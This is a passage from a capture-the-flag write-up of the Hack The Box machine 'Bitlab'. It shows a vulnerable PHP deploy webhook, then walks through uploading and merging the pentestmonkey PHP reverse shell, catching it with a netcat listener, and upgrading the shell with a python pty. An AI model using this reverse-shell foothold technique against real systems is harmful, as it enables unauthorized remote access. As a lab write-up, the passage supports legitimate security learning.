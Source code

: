{{< image src="/images/htb/bitlab/1.6-web_enum.png" position="center" style="border-radius: 8px;" >}}

{{< image src="/images/htb/bitlab/1.7-web_enum.png" position="center" style="border-radius: 8px;" >}}

```php
<?php

$input = file_get_contents("php://input");
$payload  = json_decode($input);

$repo = $payload->project->name ?? '';
$event = $payload->event_type ?? '';
$state = $payload->object_attributes->state ?? '';
$branch = $payload->object_attributes->target_branch ?? '';

if ($repo=='Profile' && $branch=='master' && $event=='merge_request' && $state=='merged') {
    echo shell_exec('cd ../profile/; sudo git pull'),"\n";
}

echo "OK\n";
```

Tying together the pieces we have at this point, we can figure out the foothold: we need to upload a php reverse shell, having it merged to master (the code of ```index.php``` specifies git pull will being executed basically if there was a merge to master), once that is done, a webhook will execute ```index.php``` from ```Deployer``` with this we will have our reverse shell uploaded to server.

## RCE -> www-data -> root

We upload the next [php reverse shell by pentestmonkey](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php) changing ```$ip = '127.0.0.1'``` and ```$port = 1234``` to our ip and the port we will be listening in our machine, afterwards we merge it (we will be automatically redirected to the page for merging it).

Now, the reverse shell is uploaded, but we still need to execute it, for that is needed to know which one is the path to execute it, if we remember the project ```Deployer``` has it's index.php which will print an "OK" we could try to access the path of deployer and see if it is printed, if it is, then we know that the path for our reverse shell will be ```http://10.0.0.14/profile/<name of our reverse shell>```:

{{< image src="/images/htb/bitlab/1.rce.png" position="center" style="border-radius: 8px;" >}}

Now we know that indeed that the mentioned url above will be the one wee need to use.
We run the listener for our reverse shell and execute it, with it having our rce:

```console
root@kali:~/Documents/HTB/boxes/medium/linux/bitlab# nc -nlvp 1234
listening on [any] 1234 ...
connect to [10.10.14.7] from (UNKNOWN) [10.10.10.114] 57130
Linux bitlab 4.15.0-29-generic #31-Ubuntu SMP Tue Jul 17 15:39:52 UTC 2018 x86_64 x86_64 x86_64 GNU/Linux
 19:56:40 up 12 min,  0 users,  load average: 0.55, 0.56, 0.46
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ python -c 'import pty;pty.spawn("/bin/bash")'
www-data@bitlab:/var/www$ pwd
pwd
/var/www
```

